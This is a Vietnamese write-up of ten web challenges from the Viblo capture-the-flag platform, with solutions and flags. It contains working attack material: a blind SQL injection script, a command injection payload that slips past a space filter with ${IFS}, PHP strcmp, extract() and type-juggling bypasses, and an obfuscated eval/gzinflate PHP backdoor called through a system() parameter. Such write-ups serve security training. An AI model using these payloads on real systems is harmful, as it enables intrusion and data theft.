# **==Write Up Viblo CTF==** 

# I.WEB

## 1. [PHP Up Right It](https://ctf.viblo.asia/puzzles/php-up-right-it-x1g34zp8knu)


Khi truy cập vào thì là 1 trang trắng




Tuy nhiên có thể để ý thấy query ở link. Sau khi refresh 1 vài lần với Network tool của Chrome DevTools chúng ta có thể thấy rất nhiều query parameters và mỗi chuỗi đó chính là 1 kí tự trong flag => Sau khi nối lại ta được flag: `Flag{URI_is_Import@nT}`



## 2. [Tricky Sneaky Weby](https://ctf.viblo.asia/puzzles/tricky-sneaky-weby-o1y7q2psuok)


Bài này có vẻ là rất nhiều level.



Khi nhập kí tự thì toàn bộ đều trở thành dạng chữ thường thay vì chữ hoa đó là vì đoạn js:

```javascript
<script>
  jQuery(document).ready(function ($) {
  $('#password').on('keydown keyup', function () {
    $(this).val($(this).val().toLowerCase());
  });
});
</script>
```

Có rất nhiều cách để bypass tuy nhiên tôi sẽ sử dụng Chrome DevTools:



Sử dụng **Event Listeners** xoá các event keydown và keyup của input#password đi sau đó copy hoặc nhập lại chuỗi `SUN$HELL`

Oke chúng ta đã pass level 1:


Tiếp tục level 2:



Đề yêu cầu là không còn trực tuyến thì sẽ hiển thị mật khẩu. Vì vậy chúng ta lại tiếp tục sử dụng Chrome DevTools để offline






Tuy nhiên flag nhận được chỉ là fake. Chúng ta xem tiếp mã nguồn của trang


Tiếp tục với level cuối:

Với level này thì trang không cho phép bôi đen và copy trực tiếp nên chúng ta sẽ vào mã nguồn copy đoạn mã f929cb2e53b11bdc223e32547a9da2622c2c913deedf2575bf95239d và sử dụng curl để gửi POST request:



Ban đầu khi copy đoạn mã vào thì chúng có chứa **<200b>** là (Unicode Character 'ZERO WIDTH SPACE’), chúng ta chỉ cần replace all nó đi là được


`Flag{only_trust_what_you_typed}`

## 3. [Web11](https://ctf.viblo.asia/puzzles/web11-xqlawdaojkr)






`Flag{g@i_xinh_v1}`

## 4. [Tragic pHp](https://ctf.viblo.asia/puzzles/tragic-php-jjq3i6qrgkd)


Truy cập  http://172.104.49.143:1303/index.phps ta có mã nguồn của index.php. Đọc qua 1 chút thì ta xác định được là phải bypass **strcmp** của php


Có rất nhiều cách để bypass tuy nhiên mình vẫn sử dụng Chrome DevTools:


Thay đổi value thành value[] và submit form. Trong php **strcmp()** chỉ nhận tham số là 1 chuỗi, nếu truyền vào là 1 mảng sẽ gây lỗi khiến việc so sánh chuỗi luôn luôn đúng.


`Flag{dont_trust_strcmp_at_all}`

## 5.[Login Form](https://ctf.viblo.asia/puzzles/login-form-ebfvssjqfr5)


Thử 1 payload sqli đơn giản thì xuất hiện thông báo => có lỗi sqli


Mình có viết 1 đoạn python đơn giản để tìm password thông qua sqli

```python
import requests
import string

def go(url,payload):
	r = requests.post(url,data=payload)
	return r.text

print """
@Get length password
"""
length = 0
for i in xrange(1,100):
	payload = {"login":"","username":"flag' AND LENGTH(password)={}-- -".format(i),"password":"123"};
	ans = go("http://172.104.49.143:1323/",payload);
	if "Success" in ans:
		length = i
		print length
		break
	else:
		continue
print """
@Get password
"""
query = 'Flag'
while True:
	if len(query) == 35:
		break
	for i in (string.printable).replace("%","").replace("_",""):
		payload = {"login":"","username":'flag\' AND password LIKE BINARY "{}%"-- -'.format(query + i),"password":"1"};
		ans = go("http://172.104.49.143:1323/",payload);
		if "Success" in ans:
			query += i
			print query
			break
		else:
			print i
			continue
```

`Flag{Bl1nd_Sql_Inj3cti0n_V3ry_3asy}`

## 6.[It's OT TIME!](https://ctf.viblo.asia/puzzles/it-s-ot-time-pofkh4esw6w)


***

Truy cập vào link ở <u>View_the_source</u> ta có mã nguồn của index.php



Bài này bypass regex, cũng khá là đơn giản. Hàm **preg_replace** trong php sẽ replace 1 chuỗi thành chuỗi khác theo biểu thức chính quy (regular expression)

Ví dụ: magic_command là **HomNayOT_EmNhe** thì nó sẽ replace và magic_command sẽ bằng rỗng.

Ta có thể lặp lại chuỗi **HomNayOT_EmNhe** vào trong chính chuỗi đó để bypass

=> Payload: http://172.104.49.143:1318/?magic_command=HomNayOTHomNayOT_EmNhe_EmNhe

`Flag{V4ng_4nh_cu0c_s0ng_m4}`

## 7.[Sun* Service](https://ctf.viblo.asia/puzzles/sun-service-knjw1vcjylx)


***

Ban đầu vào chỉ có 1 form. Ta sẽ thử truyền 1 domain hoặc ip vào:


Kết quả là đó là 1 công cụ ping



Chúng ta thử **google.com;cat index.php** tuy nhiên nó đã chặn space => ta bypass bằng **google.com;cat${IFS}index.php**

Trong đó **${IFS}** là 1 biến đặc biệt trong shell (**Internal Field Separator**) giá trị mặc định của nó là: **space, tab** hoặc **newline**



`Flag{Th1s_1s_4n_3asY_FL4G_R1ght?}`

## 8.[Enough PHP magic](https://ctf.viblo.asia/puzzles/enough-php-magic-qtd1odoekwl)


Ta scan thử => tìm được file index.phps và mã nguồn như sau:


Ta chú ý hàm **extract** nó sẽ nhận vào 1 mảng và trích xuất mảng tạo ra các biến

Vì thế ta có thể thay đổi `$filename` thành rỗng và từ đó `$combination` cũng rỗng khiến `$attempt` = ` $combination`

Payload: http://172.104.49.143:1307/index.php?filename=&attempt

`Flag{extract_is_not_safe}`


## 9.[phpinfo.php](https://ctf.viblo.asia/puzzles/phpinfo-php-vvyjdop2j3v)


```php
<?php
phpinfo();@extract($_REQUEST);eval("\x65\x76\x61\x6C\x28\x67\x7A\x69\x6E\x66\x6C\x61\x74\x65\x28\x62\x61\x73\x65\x36\x34\x5F\x64\x65\x63\x6F\x64\x65\x28'TZFJk6JAFIT/S196JurQrAXEnNgVQQQFxPACxaIgNItgWb++6bEjZg4ZGZn5vdPL5+T26+2MIX/GAlycXqSeMSMuLiydvLi0SF8EX9s3I3Cvm78c89Oxr45dOHbZeWPJPxz83v7LjPiOT4qdcpZsrI8fVzynYRjA3mxgbKoPZ7P2T6tKJ4HccSVRabkoByDFh6wzJJpB7RaTuZsR62IHBNuZgl1JcXwIA6crMte17vbKubv1AUbebTUMw0g4kKaExOzUHG3bcOpuLPOmdQHKJxqQZGuxYHZVKKYMztppPnlRtMV4LPQE40qYR+gCg2VwYXdrObF63tTrq7bfirwrTmV1uwxqRa5Uu9IiREq5WBn38XEIS87JdPOxB3l/p0qJoJhXHBwbNq8EaZjxADLPmo20gF1rGvhMg8FJjcAikNa5vBOSW4P46UrbT4A+6qsyo/wo7KSc9wBXEM3qL+qI/F5IdNWlePNgMVCqPq2Gnjo/kTac3zoeB+lJlr1WdUsfPL0Y5UC0dpoW13QSbU6w9vwyfR6yhqb6xFRaFIYVDVDNy+b8idtaHp2yj9HFdVjW8htz3Y7QKbL9Pu2bqN9J4MTN78tHpX9ilbfff74A'\x29\x29\x29\x3B");echo($It($works));

```

Đọc qua 1 lượt ta thấy lại sử dụng hàm **extract**. Khi truy cập web thì ta nhận được 1 thông báo:



Ta truy cập tới file http://172.104.49.143:1302/phpinfo.php như đề bài thì đoạn code phía trên chính là của file này.

Ta lại truyền vào tham số để hàm extract trích xuất và tạo ra biến

Payload: [http://172.104.49.143:1302/phpinfo.php?It=system&works=cat%20ngoc_trinh_is_sexy](http://172.104.49.143:1302/phpinfo.php?It=system&works=cat ngoc_trinh_is_sexy)


`Flag{php_backdoor_is_sexy_too}`

## 10.[MagiC PhP](https://ctf.viblo.asia/puzzles/magic-php-t0dnftx3ter)


Theo như code thì nó sẽ gán giá trị của `$value` bằng giá trị của value trong phương thức POST gửi lên.

và hàm cả hàm `h($value) ` sẽ chuyển các kí tự đặc biệt trong chuỗi thành các HTML entities. Hàm crc32_string sẽ trả về 1 chuỗi băm crc có độ dài 32bit từ chuỗi `$v` . Cuối cùng thì nó sẽ kiểm tra giá trị của $value khác rỗng, khác “ecTmZcC” và chuỗi băm tạo ra phải khác với giá trị của chuỗi băm sinh từ chuỗi “ezTmZcC”. Nhưng khi so sánh thì tác giả sử dụng `==` đây là 1 toán tử có thể tạo ra lỗi **Type Juggling**

Chuỗi băm của “ecTmZcC là 0e730435 mà vì nó đang mắc lỗi `Type Juggling` nên ta chỉ cần tìm 1 chuỗi khi băm ra có dạng “0e…” là có thể vượt qua. Sử dụng đoạn mã PHP này để gen ra payload:

```php
<?php

function crc32_string($v){
	return sprintf("%08x", crc32($v) & 0xffffffff);
}

function genRand(){
	$chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ";
	$newStr = "";
	for($i = 0; $i < 7; $i++){
		$newStr .= $chars[rand(0,strlen($chars) - 1)];
	}
	return $newStr;
}

while(1){
	$rand = genRand();
	$str = crc32_string($rand);
	if(preg_match("/0e[0-9]{6}/", $str)){
		var_dump($str);
		var_dump($rand);
		die();
	}
}
```

=> Payload: AWib9e5 chuỗi gen ra là 0e153696

>  **Cách thứ 2** đơn giản hơn đó là sử dụng bảng magic hash ở [link này](https://www.whitehatsec.com/blog/magic-hashes/) và payload là: 6586

`Flag{php_magic_type_casting_or_did_you_brute_force_it?}`